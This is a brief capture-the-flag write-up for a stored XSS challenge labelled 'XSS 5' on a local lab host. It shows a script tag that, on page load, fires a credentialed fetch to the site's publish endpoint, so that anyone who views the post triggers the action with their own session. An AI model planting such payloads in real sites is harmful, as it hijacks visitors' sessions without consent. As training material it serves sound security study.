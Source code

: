 # XSS 5

Log in as "hacker" (credentials given in the server code) \
Inspect and open Networks tab. Click on "Publish your drafts", and copy the GET request as Fetch. \
Attach the fetch request to `onload` event:

```html
<script>
    window.onload= async function(){
        await fetch("http://challenge.localhost/publish", {
            "credentials": "include",
            .
            .
            other copied stuff
        });
    };
</script>
```

Publish this as a post.
